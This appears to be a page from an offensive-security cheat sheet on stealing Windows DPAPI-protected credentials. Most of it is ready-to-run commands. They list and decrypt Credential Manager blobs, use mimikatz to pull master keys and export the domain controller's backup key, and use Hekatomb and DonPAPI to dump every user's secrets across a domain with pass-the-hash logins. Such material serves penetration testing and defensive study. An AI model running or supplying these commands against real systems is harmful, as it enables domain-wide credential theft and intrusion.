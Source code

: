 # Windows - DPAPI

> On Windows, credentials saved in the Windows Credentials Manager are encrypted using Microsoft's Data Protection API and stored as "blob" files in user AppData folder.

## Summary

* [Data Protection API](#data-protection-api)
    * [List Credential Files](#list-credential-files)
    * [DPAPI LocalMachine Context](#dpapi-localmachine-context)
    * [Mimikatz - Credential Manager & DPAPI](#mimikatz---credential-manager--dpapi)
    * [Hekatomb - Steal all credentials on domain](#hekatomb---steal-all-credentials-on-domain)
    * [DonPAPI - Dumping DPAPI credz remotely](#donpapi---dumping-dpapi-credz-remotely)


## Data Protection API

* Outside of a domain: the user's `password hash` is used to encrypt these "blobs".
* Inside a domain: the `domain controller's master key` is used to encrypt these blobs.

With the extracted private key of the domain controller, it is possible to decrypt all the blobs, and therefore to recover all the secrets recorded in the Windows identification manager of all the work  
stations in the domain.

```ps1
vaultcmd /list

VaultCmd /listcreds:<namevault>|<guidvault> /all
vaultcmd /listcreds:"Windows Credentials" /all
```

### List Credential Files

```ps1
dir /a:h C:\Users\username\AppData\Local\Microsoft\Credentials\
dir /a:h C:\Users\username\AppData\Roaming\Microsoft\Credentials\

Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```


### DPAPI LocalMachine Context

The `LocalMachine` context is used to protect data that is intended to be shared across different users or services on a single machine. This means that any user or service running on the machine can access the protected data with the appropriate credentials.

In contrast, the `CurrentUser` context is used to protect data that is intended to be accessed only by the user who encrypted it, and cannot be accessed by other users or services on the same machine.

```ps1
$a = [System.Convert]::FromBase64String("AQAAANCMnd[...]")
$b = [System.Security.Cryptography.ProtectedData]::Unprotect($a, $null, [System.Security.Cryptography.DataProtectionScope]::LocalMachine)
[System.Text.Encoding]::ASCII.GetString($b)
```


### Mimikatz - Credential Manager & DPAPI

```powershell
# check the folder to find credentials
dir C:\Users\<username>\AppData\Local\Microsoft\Credentials\*

# check the file with mimikatz
mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\2647629F5AA74CD934ECD2F88D64ECD0
# find master key
mimikatz !sekurlsa::dpapi
# use master key
mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\2647629F5AA74CD934ECD2F88D64ECD0 /masterkey:95664450d90eb2ce9a8b1933f823b90510b61374180ed5063043273940f50e728fe7871169c87a0bba5e0c470d91d21016311727bce2eff9c97445d444b6a17b

# find and export backup keys
lsadump::backupkeys /system:dc01.lab.local /export
# use backup keys
dpapi::masterkey /in:"C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Protect\S-1-5-21-2552734371-813931464-1050690807-1106\3e90dd9e-f901-40a1-b691-84d7f647b8fe" /pvk:ntds_capi_0_d2685b31-402d-493b-8d12-5fe48ee26f5a.pvk
```

### Hekatomb - Steal all credentials on domain

> [ProcessusT/Hekatomb](https://github.com/ProcessusT/HEKATOMB) is a python script that connects to LDAP directory to retrieve all computers and users informations. Then it will download all DPAPI blob of all users from all computers. Finally, it will extract domain controller private key through RPC uses it to decrypt all credentials.

```python
pip3 install hekatomb
hekatomb -hashes :ed0052e5a66b1c8e942cc9481a50d56 DOMAIN.local/administrator@10.0.0.1 -debug -dnstcp
```

![Data in memory](https://github.com/ProcessusT/HEKATOMB/raw/main/.assets/github1.png)

### DonPAPI - Dumping DPAPI credz remotely

* [login-securite/DonPAPI](https://github.com/login-securite/DonPAPI)

```ps1
DonPAPI.py domain/user:passw0rd@target
DonPAPI.py --hashes <LM>:<NT> domain/user@target

# using domain backup key
dpapi.py backupkeys --export -t domain/user:passw0rd@target_dc_ip
python DonPAPI.py -pvk domain_backupkey.pvk domain/user:passw0rd@domain_network_list
```

## References

* [DPAPI - Extracting Passwords - HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords)
* [DON PAPI, OU L’ART D’ALLER PLUS LOIN QUE LE DOMAIN ADMIN - LoginSecurité - CORTO GUEGUEN - 4 MARS 2022](https://www.login-securite.com/2022/03/04/don-papi-ou-lart-daller-plus-loin-que-le-avec-dpapi/)